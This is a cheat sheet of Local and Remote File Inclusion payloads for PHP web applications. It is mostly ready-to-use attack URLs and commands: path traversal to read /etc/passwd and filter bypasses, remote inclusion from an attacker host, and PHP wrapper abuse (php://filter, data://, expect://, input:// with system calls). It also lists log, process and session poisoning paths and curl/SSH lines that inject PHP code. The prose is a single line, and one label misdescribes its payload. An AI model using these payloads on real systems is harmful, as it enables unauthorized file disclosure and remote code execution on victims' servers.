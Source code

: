 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

# PHP wrappers & protocols

**php://filter**

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

**data://**

```
http://example.com/index.php?page=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%64%73%63%79%63%70%4f%79%41%2f%50%67%3d%3d (Useful For WAF bypass)
http://example.com/index.php?page=data:text/plain,%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e (Will print php info)
```

**expect://**

```
http://example.com/index.php?page=expect://ls [For fopen Function]
```

**input://**

```
curl -X POST -d "<?php system('ls'); ?>" http://example.com/index.php?page=input://
```

**php://fd/**

```
http://example.com/index.php?page=php://fd/[0-9] (Opened Files In Current Process)
```

**zip://**

```
http://example.com/index.php?page=zip://path-to-zip-file/%23shell.php
```

# Web Serice Software logs Poisoning

**Apache2**

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/httpd/error_log
```

**Nginx**

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

# Process Poisoning

```
/proc/self/environ
/proc/self/status
/proc/[id]/fd/[id]
/proc/self/[id]
```

# LFI to RCE via uploaded file

```
http://example.com/index.php?page=./uploads/shell.png
```

# SSH log Poisoning

```
$ ssh '<?php phpinfo(); ?>@example.com'
http://example.com/index.php?page=/var/log/auth.log
```

# PHP Session Poisoning

```
 /var/lib/php/sess_[PHPSESSID]
/tmp/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]
```

# PHP session.upload_progress 

```
curl --cookie "PHPSESSID=attacker" -F "PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>" -F "file=@test.png"
#then view session path like /var/lib/php/sess_attacker
```
